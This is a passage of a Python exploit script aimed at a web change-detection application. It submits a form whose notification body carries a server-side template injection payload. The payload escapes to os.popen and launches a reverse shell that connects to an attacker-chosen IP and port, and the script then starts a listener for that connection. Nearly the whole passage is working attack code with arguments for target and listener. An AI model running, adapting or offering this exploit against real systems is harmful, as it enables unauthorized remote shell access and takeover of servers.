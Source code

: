 ```python
        "title": '',
        "tags": '',
        "time_between_check-weeks": '',
        "time_between_check-days": '',
        "time_between_check-hours": '',
        "time_between_check-minutes": '',
        "time_between_check-seconds": '30',
        "filter_failure_notification_send": 'y',
        "fetch_backend": 'system',
        "webdriver_delay": '',
        "webdriver_js_execute_code": '',
        "method": 'GET',
        "headers": '',
        "body": '',
        "notification_urls": notification_url,
        "notification_title": '',
        "notification_body": f"""
        {{% for x in ().__class__.__base__.__subclasses__() %}}
        {{% if "warning" in x.__name__ %}}
        {{{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\"{listen_ip}\\",{listen_port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\"/bin/bash\\")'").read()}}}}
        {{% endif %}}
        {{% endfor %}}
        """,
        "notification_format": 'System default',
        "include_filters": '',
        "subtractive_selectors": '',
        "filter_text_added": 'y',
        "filter_text_replaced": 'y',
        "filter_text_removed": 'y',
        "trigger_text": '',
        "ignore_text": '',
        "text_should_not_be_present": '',
        "extract_text": '',
        "save_button": 'Save'
    }
    final_response = session.post(save_detection_url, headers=save_detection_headers, data=save_detection_data)

    print('Final request made.')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Add detection and start listener')
    parser.add_argument('--url', type=str, required=True, help='Base URL of the target site')
    parser.add_argument('--port', type=int, help='Port for the listener', default=4444)
    parser.add_argument('--ip', type=str, required=True, help='IP address for the listener')
    parser.add_argument('--notification', type=str, help='Notification url if you don\'t want to use the system default')
    args = parser.parse_args()


    add_detection(args.url, args.ip, args.port, args.notification)
    start_listener(args.port)
```
